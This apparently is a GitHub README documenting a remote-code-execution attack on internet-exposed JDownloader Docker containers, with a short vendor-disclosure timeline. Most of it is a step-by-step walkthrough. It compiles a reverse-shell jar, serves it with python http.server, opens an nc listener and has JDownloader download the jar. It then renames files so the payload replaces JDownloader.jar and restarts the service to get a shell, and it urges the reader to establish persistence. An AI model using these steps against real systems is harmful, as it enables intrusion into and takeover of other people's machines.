




# JDownloader-RCE
Documenting how to exploit JDownloader docker instances (https://github.com/jlesage/docker-jdownloader-2)

Tested on Docker container running Linux Alpine 64 bit, bit it should run on windows/linux either way with some slight modifications to the code. 

## Timeline 

12 04 2024 - Vendor Notified 
12 05 2024 - Vendor said they did not maintain docker container 

The docker maintainer page doesnt seem to fix bugs so I am posting this to make people aware of the vulnerabilties that can come with exposing a container to the internet. 

# TL;DR

You can upload a .jar file to JDownloader and change its name to `JDownloader.jar` then restart the service, triggering whatever was in the .jar 

# Step 1: Verify environment settings 

1.1 When you get to the JDownloader interface, go to the top left and select 'Help -> About JDownloader'

1.2 Check the Java version and Installation Directory (in this screenshot its JRE 1.8 and `/config`, which is covered by the "Click me / Mouse Over")




# Step 2: Create payload 

2.1 Edit the `shell.java` file with your IP and port that you want the reverse shell to come back to. 

2.2 Compile the file. (You may need to change the target and source parameters depending on the JRE from step 1.2)
```bash
javac -target 1.8 -source 1.8 shell.java
jar cmf manifest.mf myprogram.jar shell.class
```


# Step 3: Start server and listener

Open 2 terminals, one to grab your java files from and one with the port you want the reverse shell to come back to.

Terminal 1 : `python3 -m http.server 8081`

Terminal 2 : `nc -nvlp <PORT>`

# Step 4: Upload files

4.1 Go back to the web interface, on the "LinkGrabber" tab and right click. Select 'Add new Links'. 

4.2 Enter your ip like so 'http://YOUR-IP:8081'

4.3 Ensure the directory next to the save icon is the same installation directory from step 1.2



# Step 5: Change file names 

5.1 Expand each folder and download `myprogram.jar` and `manifest.mf` by right clicking on them and selecting `start download` (if you want, you can replace any file with manifest.mf, we just need a placeholder file that has some text in it)  

5.2 Go over to the "downloads" tab and right click on `manifest.mf`. Goto Properties -> Rename. Change the filename to `JDownloader.jar`. You should get an error saying the file already exists. However, the filename within the GUI changes to JDownloader.jar.

5.3 Repeat step 5.2 again, this time renaming the file to `JDownloader.jar.bak`. This will change the actual `JDownloader.jar` within the config directory to `JDownloader.jar.bak`. 

5.4 Change `myprogram.jar` to `JDownloader.jar`. You should not get an error this time, because the previous step changed the original `JDownloader.jar` to `JDownloader.jar.bak`. 



# Step 6: Execute. 

**WARNING: Once you run this step you will lose GUI access. This is because we have replaced the .jar file that controls the GUI with our malicious code.** 

6.1 In the top left, goto `File -> Restart`. This should restart the service, which re-runs the `JDownloader.jar` (which is now our malicious file) 

6.2 To re-execute, just reconnect. (This has been hit-or-miss so don't rely on it. Establish persistence!!) 



# Cleanup

If you'd like to fix it, just delete the `JDownloader.jar`, `myprogam.jar`, `manifest.mf` and rename `JDownloader.jar.bak` back to `JDownloader.jar`. You may need to restart the service or just run the .jar manually to get the GUI back up. 
